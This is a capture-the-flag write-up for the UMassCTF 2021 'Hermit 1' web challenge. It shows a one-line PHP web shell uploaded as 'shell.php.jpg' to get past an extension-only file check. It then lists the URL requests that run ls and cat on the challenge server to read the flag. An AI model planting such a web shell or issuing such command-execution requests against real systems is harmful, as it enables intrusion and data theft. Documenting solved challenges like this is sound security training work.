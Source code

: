 ```yaml
---
layout: post
title: UMassCTF '21 Hermit 1 WriteUp
description: Solution for Hermit 1 challenge from UMassCTF 2021
---
```


<center><a target="_blank" href="/assets/img/hermit-logo.png"><img alt="hermit logo" src="/assets/img/hermit-logo.png" width="300px"/></a></center>

## Solution

There is only one form that accepts a file.

The validation of the file is based on extension so we can try and upload `shell.php.jpg` image with content like this:

```php
<?=`$_GET[0]`?>
```

<br/>

When image is uploaded we see the page like this:

<a target="_blank" href="/assets/img/hermit-shell-uploaded.png"><img alt="hermit logo" src="/assets/img/hermit-shell-uploaded.png" width="500px"/></a>

Click on <strong>See image</strong> and we see a blank page with some strange PHP errors. It's because our "image" expects get param called "0" so let's add one.

`104.197.195.221:8086/show.php?filename=VbvJC0&0=ls`

and we can see list of directories in the project root.


<a target="_blank" href="/assets/img/hermit-ls-project-root.png"><img alt="hermit logo" src="/assets/img/hermit-ls-project-root.png" width="500px"/></a>

Now it's time to search for flag. Let's check home directory like this:

`104.197.195.221:8086/show.php?filename=VbvJC0&0=ls /home`

we see there is only one folder `hermit`

Let's check that folder:

`104.197.195.221:8086/show.php?filename=VbvJC0&0=ls /home/hermit` - and there is flag folder now.

`104.197.195.221:8086/show.php?filename=VbvJC0&0=ls /home/hermit/flag` - shows us `userflag.txt`

`104.197.195.221:8086/show.php?filename=VbvJC0&0=cat /home/hermit/flag/userflag.txt` - shows us the flag


<a target="_blank" href="/assets/img/hermit1-flag.png"><img alt="hermit logo" src="/assets/img/hermit1-flag.png" width="500px"/></a>
